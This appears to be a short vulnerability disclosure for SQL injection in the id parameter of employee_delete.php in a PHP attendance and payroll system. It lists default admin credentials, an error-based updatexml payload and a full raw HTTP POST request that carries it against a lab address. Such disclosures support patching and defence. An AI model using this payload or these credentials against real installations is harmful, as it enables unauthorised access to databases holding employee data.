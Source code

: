 # Attendance and Payroll System v1.0 - SQL injection

username:nurhodelta password:password ----> {ip}apsystem/admin/index.php

Supplier： https://www.sourcecodester.com/php/12268/attendance-and-payroll-system-using-php.html

\admin\employee_delete.php has SQL injection

Payload: id=7' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+&delete=

SQL injection because id can be closed

![image](https://user-images.githubusercontent.com/54017627/159218492-e90c3568-0e87-4ca1-b39f-d49871f1fd28.png)

```sql
POST /apsystem/admin/employee_delete.php HTTP/1.1
Host: 192.168.1.17
Content-Length: 73
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.1.17
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.1.17/apsystem/admin/employee.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=2nud4pa7qt6oo5odl3120a4bta
Connection: close

id=7' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+&delete=
```

![image](https://user-images.githubusercontent.com/54017627/159218815-1a8d1f24-e6e5-470f-bc9a-b5fc467ce110.png)

![image](https://user-images.githubusercontent.com/54017627/159218897-0200ec17-f2a2-41d4-9dd8-53d49102d1a7.png)
